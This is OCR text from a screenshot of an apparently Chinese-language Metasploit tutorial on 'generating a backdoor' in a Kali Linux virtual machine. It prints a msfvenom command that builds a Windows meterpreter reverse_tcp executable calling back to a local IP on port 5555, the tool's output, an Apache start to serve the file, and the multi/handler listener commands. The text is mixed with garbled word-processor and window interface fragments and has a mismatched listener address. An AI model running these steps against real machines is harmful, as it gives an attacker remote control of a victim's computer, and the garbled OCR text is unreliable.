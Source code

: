 hongkeketang·VMware Workstation
文件F 编辑（E） 查看（V）
选项卡① 帮助（H）
hongke@kali:~
hongke-文件管理器
02：55下午
O■G hongkr@bali:-
文件（F）动作（A）编辑（E）
査看（V）
帮助（H） hongke@kali:-
hongke@kall:~
hongke@kali:~$ msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.152.128 lport=5555 -f exe -o /home/hongke/windwos_ payload.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload [-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload Payload size: 341 bytes
Final size of exe file:73802 bytes
Saved as:/home/hongke/windwos_payload.exe hongkeakali:~$ sudo service apache2 start ［sudo］ hongke 的密码：
hongke@kali:~$
I 

eketang-VMware Workstation
x 首页
稻売模板
36．Metasploit．etasploit生成后门
37．Metasploit：生成Android后门
+ hongkeketang
三文件
章节 安全 开发工具 特色功能 Q直找
✓ X■切
E·A··田
AaBbC AaBbCcDc
B导·＆ D AaBbCcD
AaBbCeDd 文件（F）
动作
复制 格式期
BIU·A·XXA·■·
·
标■4 HTML... 普通（网站） 默认段..
文档助手 文字工具
查找替換·选择 打开metasploit 执行以下命令，开启主控端监听
世 XMMMMI
.WMMMM dMMN
msf5> use exploit/multi/handler CWN
msf5 exploit(multi/handler)> set payload windows/meterpreter/reverse_tcp payload →windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler)>set lhost 192.168.152.148 lhost192.168.152.148
msf5 exploit(multi/handler)> set lport 5555 lport→5555
msf5 exploit(multi/handler)> run
[*] Started reverse TCP handler on 192.168.152.148:5555 +
+
Back
Search
Favorites +
Address
88 Metasp
页码：1
页面：1／2 节：1／1 设查值：24.6厘米 行：30 列：28
字数：9／203
☑拼写检查 msf5
